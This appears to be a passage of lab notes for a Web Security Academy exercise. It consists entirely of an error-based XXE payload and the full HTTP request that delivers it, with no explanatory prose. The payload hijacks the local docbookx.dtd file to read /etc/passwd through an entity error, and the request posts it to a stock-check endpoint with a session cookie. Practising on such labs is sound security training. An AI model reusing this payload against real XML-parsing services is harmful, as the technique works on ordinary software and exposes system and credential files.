 ```bash
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

```bash
POST /product/stock HTTP/1.1
Host: 0a06001504bf952683b5c9f9000b000b.web-security-academy.net
Connection: close
Content-Length: 427
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a06001504bf952683b5c9f9000b000b.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a06001504bf952683b5c9f9000b000b.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=h6z4LaWkg2wcYbYdkEE7jEBWHblJNA4U

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
